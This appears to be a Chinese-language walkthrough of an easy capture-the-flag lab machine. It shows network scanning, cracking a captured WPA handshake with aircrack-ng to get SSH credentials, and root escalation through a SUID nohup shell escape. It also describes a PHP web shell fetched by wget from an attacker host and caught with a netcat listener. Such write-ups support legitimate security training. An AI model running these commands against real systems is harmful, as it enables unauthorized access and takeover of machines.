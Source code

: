 > 无线流量破解得到SSH用户密码，nohup提权
## 靶机信息
- 级别:容易
- 不允许暴力破解SSH

## Recon
### nmap
```shell
nmap -sn 192.168.1.0/24
//IP:192.168.1.155
sudo nmap -sT --min-rate 10000 -p- 192.168.1.155
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
8999/tcp open  bctp
9000/tcp open  cslistener
```

## Web
![[Pasted image 20231014124820.png]]

![[Pasted image 20231014125605.png]]
```shell
wireshark WPA-01.cap
```
![[Pasted image 20231014130218.png]]
```shell
//是一个无线的流量
//爆破密码
aircrack-ng -w /usr/share/wordlists/rockyou.txt WPA-01.cap
```
![[Pasted image 20231014130558.png]]
```shell
//通过无线路由器的流量破解得到一组凭证
dlink,p4ssword
```

## 提权
```shell
find / -type f -perm -u=s 2>/dev/null
/usr/bin/nohup

/usr/bin/nohup /bin/sh -p -c "sh -p <$(tty) >$(tty) 2>$(tty)" //GTFOBins
```
![[Pasted image 20231014131603.png]]

> `nohup` 是一个Unix和Linux系统中的命令，它用于在后台运行一个命令，即使在终端会话退出后也能保持运行。`nohup` 的名称是 "no hang up" 的缩写，它最初的目的是在网络和终端连接断开时保持命令运行。

`nohup` 命令的一般语法如下：

```
nohup command-to-run &
```

其中：
- `command-to-run` 代表你要在后台运行的命令，可以是任何合法的Unix/Linux命令。
- `&` 符号表示将该命令放入后台运行。

使用 `nohup` 的主要优点是，它会将命令的输出重定向到一个名为 `nohup.out` 的文件，这样你可以在后台运行的命令中查看输出信息，而不会干扰你的终端会话。此外，即使你关闭了终端会话，命令也会继续运行，直到它完成或者你手动停止它。

示例用法：
```bash
nohup ./my-script.sh &
```

这个命令会在后台运行名为 `my-script.sh` 的脚本，并将输出重定向到 `nohup.out` 文件。这对于长时间运行的任务或远程服务器上的任务非常有用。当你需要在终端退出后继续运行某个命令，并且保留输出记录时，`nohup` 是一个很有用的工具。

## 提权2
```shell
find / -type d  -writable 2>/dev/null //查找所有可写的目录
```
![[Pasted image 20231014152731.png]]
```shell
files文件夹属于root且完全可写
```
![[Pasted image 20231014152820.png]]
是9000端口的网页文件
```shell
php -S 0:80
靶机的/var/www/bolt/public/files目录下
wget http://kaliIP/shell.php
kali nc -lvnp 1234
网页中执行php文件
http://192.168.1.155:9000/files/shell.php
成功得到root权限
```
